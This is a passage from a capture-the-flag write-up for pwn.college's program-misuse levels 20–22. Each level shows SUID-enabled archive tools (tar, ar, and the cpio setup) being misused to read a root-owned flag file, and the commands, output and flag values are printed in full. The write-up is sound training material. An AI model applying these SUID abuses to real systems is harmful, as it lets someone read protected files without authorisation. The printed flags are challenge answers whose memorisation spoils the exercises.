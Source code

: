 The `tar` utility is an archiving program designed to store multiple files in a single file (an archive), and to manipulate such archives.

```
hacker@program-misuse~level20:/$ tar -cvf flag.tar /flag && cat flag.tar
flag0000400000000000000000000000007114623022621010372 0ustar  rootrootpwn.college{s9sidrdyxkAHF8Y1S9VWKTkIX-q.0lM2EDL4ITM0EzW}
```

&nbsp;

## level 21

> Forces you to understand different archive formats!

```
hacker@program-misuse~level21:/$ /challenge/babysuid_level21 
Welcome to /challenge/babysuid_level21!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/ar.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level21) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ar!
```

The `ar` program creates, modifies, and extracts from archives.

We can specify the output file using the `r` option.

```
hacker@program-misuse~level21:/$ ar r /flag.a /flag && cat /flag.a
!<arch>
flag/           0           0     0     644     57        `
pwn.college{woCBjZxtFgTiFHiuVetB5jxHNA9.01M2EDL4ITM0EzW}
```

&nbsp;

## level 22

```
hacker@program-misuse~level22:/$ /challenge/babysuid_level22 
Welcome to /challenge/babysuid_level22!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/cpio.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level22) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cpio!
```
